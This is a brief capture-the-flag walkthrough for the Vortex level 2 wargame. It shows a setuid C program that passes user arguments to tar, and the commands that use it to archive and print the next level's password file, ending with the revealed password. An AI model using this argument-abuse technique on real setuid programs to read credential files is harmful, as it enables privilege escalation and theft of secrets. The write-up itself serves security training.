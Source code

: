 ```
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>


int main(int argc, char **argv)
{
        char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
        execv(args[0], args);
}
```

Above is the code for the binary of vortex2. We can see the tar binary is executed with the parameters which are passed as arguments in the vortex2 binary.

If we chech the permission of vortex2 binary, we can see that it runs with vortex3 permissions. So it can open the /etc/vortex_pass/vortex3 password file.

```
vortex2@vortex:/vortex$ ls -al vortex2
-r-sr-x--- 1 vortex3 vortex2 7220 May 19  2020 vortex2
```

Now as the program expects 3 arguments we can just give it the password file as argument and it will output the tar file.

```
vortex2@vortex:/etc/vortex_pass$ /vortex/vortex2 -p -C vortex3
```

Atlast just output the tar file to stdout to get the password for the next level.
```
vortex2@vortex:~$ tar xf '/tmp/ownership.$$.tar' -O
64ncXTvx#
```